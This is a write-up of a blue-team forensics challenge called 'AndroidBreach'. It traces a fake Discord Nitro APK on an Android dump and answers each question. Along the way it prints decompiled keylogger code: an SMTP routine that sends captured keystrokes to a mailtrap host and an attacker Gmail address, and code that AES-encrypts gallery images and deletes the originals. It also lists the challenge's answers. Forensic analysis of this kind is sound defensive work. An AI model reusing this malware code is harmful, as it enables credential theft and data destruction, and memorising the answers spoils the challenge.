

# AndroidBreach
---


Practice [here](https://cyberdefenders.org/blueteam-ctf-challenges/androidbreach/)
---
## Lab Description
> At BrightWave Company, a data breach occurred due to an employee's lack of security awareness, compromising his credentials. The attacker used these credentials to gain unauthorized access to the system and exfiltrate sensitive data. During the investigation, the employee revealed two critical points: first, he stores all his credentials in the notes app on his phone, and second, he frequently downloads APK files from untrusted sources. Your task is to analyze the provided Android dump, identify the malware downloaded, and determine its exact functionality.

Tool:
* CyberChef
* DB Browser
* jadx
* ALEAPP

## Analyzing

**Q1: What suspicious link was used to download the malicious APK from your initial investigation?**


> **https://ufile.io/57rdyncx**

**Q2: What is the name of the downloaded APK?**

Look at above picture, you can see Target Path have a path: **content://media/external/downloads/1000000038**

Investigate this path, I can see malicious file name. It stay at: **data\media\0\Download** of full path: **C:\Users\Administrator\Desktop\Start Here\Artifacts\data\media\0\Download**

> **Discord_nitro_Mod.apk**

**Bonus:**

Permission List of Package:


**Q3: What is the malicious package name found in the APK?**

Here is time of attack's begin: **2024-08-15 07:09:54**

Browser: `INSTALLED APPS > Packages` and sort by **ft** (first time). You can receive a result same with me


Next to `Permissions > Runtime Permissions_0`, you can see some permist have been added into Manifest of **com.discord** package


> **com.example.keylogger**

**Q4: What is the protocol used to exfiltrate data?**

Browser data path of com.discord:
**C:\Users\Administrator\Desktop\Start Here\Artifacts\data\data\com.discord**

Investigate 2 folder: **files** and **cache** where is store data have been exfiltrated

In files folder: I see that config.txt file that has been stored data work with other app


You can see a lot of email account and I guess that attacker used smtp protocol for exfiltrate data

> **SMTP**

**Q5: What is the service platform name the attacker utilized to receive the data being exfiltrated?**

Open apk file with jadx, load into `Source code > com > example.keylogger > SendEmail`

```java
    public void openEmailClient(String toEmail, String subject, String body) {
        Properties props = new Properties();
        props.put("mail.smtp.auth", "true");
        props.put("mail.smtp.starttls.enable", "true");
        props.put("mail.smtp.host", "sandbox.smtp.mailtrap.io");
        props.put("mail.smtp.port", "465");
        Session session = Session.getInstance(props, new AnonymousClass1(this));
        Message message = new MimeMessage(session);     // Catch: MessagingException -> L27
        message.setFrom(new InternetAddress("b15c9729198acf"));     // Catch: MessagingException -> L27
        message.setRecipients(Message.RecipientType.TO, InternetAddress.parse(toEmail));     // Catch: MessagingException -> L27
        message.setSubject(subject);     // Catch: MessagingException -> L27
        message.setText(body);     // Catch: MessagingException -> L27
        Transport.send(message);     // Catch: MessagingException -> L27
        KeyLogs.Empty();     // Catch: MessagingException -> L27
        Log.d("Email", "sent");     // Catch: MessagingException -> L27
        return;
    L27:
        e = move-exception;
        e.printStackTrace();
        Log.d("EmailERR", e.getMessage());
    }

```
You can see smtp host used by attacker: sandbox.smtp.mailtrap.io

> mailtrap.io

**Q6: What email was used by the attacker when exfiltrating data?**

At BroadcastForAlarm class, you can see email of attacker:

```java
public class BroadcastForAlarm extends BroadcastReceiver {
    KeyLogs log = new KeyLogs();

    @Override // android.content.BroadcastReceiver
    public void onReceive(Context context, Intent intent) {
        String msg = KeyLogs.GetLog();
        SendEmail SendEmail = new SendEmail(context, "APThreat@gmail.com", "KeyLogger", msg);
        SendEmail.Send();
        try {
            OutputStreamWriter outputStreamWriter = new OutputStreamWriter(context.openFileOutput("config.txt", 0));
            outputStreamWriter.write(msg);
            outputStreamWriter.close();
        } catch (IOException e10) {
            Log.e("Exception", "File write failed: " + e10.toString());
        }
    }
}
```

or use **text search**



> **APThreat@gmail.com**

**Q7: The attacker has saved a file containing leaked company credentials before attempting to exfiltrate it. Based on the data, can you retrieve the credentials found in the leak?**

From above code of BroadcastForAlarm class, you can see this app interactive with config.txt file

```java
OutputStreamWriter outputStreamWriter = new OutputStreamWriter(context.openFileOutput("config.txt", 0));
outputStreamWriter.write(msg);
outputStreamWriter.close();
```

In config.txt file:


> **hany.tarek@brightwave.com:HTarek@9711$QTPO309**

**Q8: The malware altered images stored on the Android phone by encrypting them. What is the encryption key used by the malware to encrypt these images?**

Here is AESUtils class, that using AES algorithm to encrypt file

```java
public class AESUtils {
    private static final String ALGORITHM = "AES/ECB/PKCS5Padding";

    public static byte[] encrypt(byte[] data, SecretKey key) throws Exception {
        Cipher cipher = Cipher.getInstance(ALGORITHM);
        cipher.init(1, key);
        return cipher.doFinal(data);
    }

    public static SecretKey stringToKey(String keyString) {
        byte[] decodedKey = Base64.getDecoder().decode(keyString);
        return new SecretKeySpec(decodedKey, 0, decodedKey.length, ALGORITHM);
    }
}
```
Press X, you can know what class or function using this class (AESUtils)

```java
try {
    Log.d("Image", uri.toString());
    Bitmap bitmap = loadBitmapFromUri(context, uri);
    byte[] pixelArray = bitmapToByteArray(bitmap);
    byte[] encryptedPixels = AESUtils.encrypt(pixelArray, AESUtils.stringToKey("OWJZJHdRNyFjVHo0NjVUWA=="));
    savePixelsToUri(context, encryptedPixels, "img.jpg");
    File fdelete = new File((String) Objects.requireNonNull(getFilePath(context, uri)));
    if (fdelete.exists()) {
        if (fdelete.delete()) {
            Log.d(JSStackTrace.FILE_KEY, "file Deleted :");
        } else {
            Log.d(JSStackTrace.FILE_KEY, "file not Deleted :");
        }
    }
} catch (Exception e10) {
    e10.printStackTrace();
    Log.d("Err", e10.toString());
}
```
Key: **OWJZJHdRNyFjVHo0NjVUWA==** but has been encrypt with Base64:

```java
public static SecretKey stringToKey(String keyString) {
    byte[] decodedKey = Base64.getDecoder().decode(keyString);
    return new SecretKeySpec(decodedKey, 0, decodedKey.length, ALGORITHM);
}
```


> **9bY$wQ7!cTz465TX**

**Q9: The employee stored sensitive data in their phone's gallery, including credit card information. What is the CVC of the credit card stored?**

```java
Log.d("Image", uri.toString());
Bitmap bitmap = loadBitmapFromUri(context, uri);
byte[] pixelArray = bitmapToByteArray(bitmap);
byte[] encryptedPixels = AESUtils.encrypt(pixelArray, AESUtils.stringToKey("OWJZJHdRNyFjVHo0NjVUWA=="));
savePixelsToUri(context, encryptedPixels, "img.jpg");
```
You can know where the image is taken from. And name of image file.

Here is the path of image file: `"C:\Users\Administrator\Desktop\Start Here\Artifacts\data\media\0\Pictures\img.jpg"` and `img (1).jpg` has been enc with **AES algorithm**


img.jpg


img (1).jpg


> **128**